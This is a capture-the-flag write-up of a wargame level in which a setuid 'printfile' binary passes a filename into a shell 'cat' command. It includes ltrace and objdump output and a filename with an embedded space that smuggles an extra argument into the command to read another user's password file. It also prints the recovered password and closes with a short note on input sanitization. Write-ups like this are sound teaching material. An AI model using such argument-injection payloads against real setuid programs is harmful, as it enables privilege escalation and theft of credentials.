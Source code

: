 For this level, I use `ls -la` and find `printfile` executable with owner as leviathan3. The executable also gives permission to leviathan2 for executing it shown below:
```
leviathan2@gibson:~$ ls -la
total 36
drwxr-xr-x  2 root       root        4096 Oct  5 06:19 .
drwxr-xr-x 83 root       root        4096 Oct  5 06:20 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan3 leviathan2 15060 Oct  5 06:19 printfile
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```

Now, we execute the printfile which takes in a file and prints out it's contents like `cat`
```
leviathan2@gibson:~$ ./printfile /etc/host.conf
# The "order" line is only used by old versions of the C library.
order hosts,bind
multi on
```

As usual, to understand more of the stack trace of the executable, I use objdump to print the dynamic symbol table:
```
leviathan2@gibson:~$ objdump -T printfile

printfile:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*  00000000 (GLIBC_2.34) __libc_start_main
00000000      DF *UND*  00000000 (GLIBC_2.0)  printf
00000000      DF *UND*  00000000 (GLIBC_2.4)  __stack_chk_fail
00000000      DF *UND*  00000000 (GLIBC_2.0)  geteuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  puts
00000000      DF *UND*  00000000 (GLIBC_2.0)  system
00000000  w   D  *UND*  00000000  Base        __gmon_start__
00000000      DF *UND*  00000000 (GLIBC_2.0)  setreuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  snprintf
00000000      DF *UND*  00000000 (GLIBC_2.0)  access
0804a004 g    DO .rodata        00000004  Base        _IO_stdin_used
```

However, the table did not didn't reveal much of what we know so I tried reading the password for leviathan3 directly, which unsurprisingly failed:

```
leviathan2@gibson:~$ ./printfile /etc/leviathan_pass/leviathan3
You cant have that file...
```

Using ltrace, I observed the following function calls:

```
leviathan2@gibson:~$ ltrace ./printfile /etc/host.conf
__libc_start_main(0x80491e6, 2, 0xffffd684, 0 <unfinished ...>
access("/etc/host.conf", 4)                                                                                                         = 0
snprintf("/bin/cat /etc/host.conf", 511, "/bin/cat %s", "/etc/host.conf")                                                           = 23
geteuid()                                                                                                                           = 12002
geteuid()                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                              = 0
system("/bin/cat /etc/host.conf"# The "order" line is only used by old versions of the C library.
order hosts,bind
multi on
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                              = 0
+++ exited (status 0) +++
```

From the above calls, the sequence seems to be:
    - Check if the file is accessible (access).
    - Store the command in a buffer (snprintf).
    - Change the user ID (geteuid and setreuid).
    - Execute the command (system).

From this, we still need to somehow bypass the access check so that we can execute the command with elevated permissions (likely leviathan3).

The vulnerability lies in the way the printfile program processes filenames. Since the program concatenates the filename directly into the command it will execute, we can manipulate the filename to modify the command.
The payload was designed in the form of a filename. By adding a space character followed by the desired file we want to access, we can make the system function execute the cat command on both files.
So, by naming our file as `a leviathan3`, the `printfile` executable attempts to read both the files, a and leviathan3.
```
leviathan2@gibson:/etc/leviathan_pass$ ~/printfile '/tmp/tmp.0wDX4pzYkj/a leviathan3'
/bin/cat: /tmp/tmp.0wDX4pzYkj/a: Permission denied
Q0G8j4sakn
```
Code signals in `ltrace`:
```
leviathan2@gibson:/etc/leviathan_pass$ ltrace ~/printfile '/tmp/tmp.0wDX4pzYkj/a leviathan3'
__libc_start_main(0x80491e6, 2, 0xffffd644, 0 <unfinished ...>
access("/tmp/tmp.0wDX4pzYkj/a leviathan3"..., 4)                                                                                    = 0         access is bypassed with the filename
snprintf("/bin/cat /tmp/tmp.0wDX4pzYkj/a l"..., 511, "/bin/cat %s", "/tmp/tmp.0wDX4pzYkj/a leviathan3"...)                          = 41        
geteuid()                                                                                                                           = 12002
geteuid()                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                              = 0
system("/bin/cat /tmp/tmp.0wDX4pzYkj/a l".../bin/cat: /tmp/tmp.0wDX4pzYkj/a: No such file or directory                                      the cat tmpfile is not allowed as the owner is leviathan2
/bin/cat: leviathan3: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                              = 256
+++ exited (status 0) +++
```

### Reflection:
You can use a filename as a payload with the file you want to bypass certain functions. Using filenames as payloads can be a strong method to exploit poorly written programs. 
So, to mitigate payload attacks using files, we need to sanitize and validate inputs.
This can be seen in the `ltrace`: 


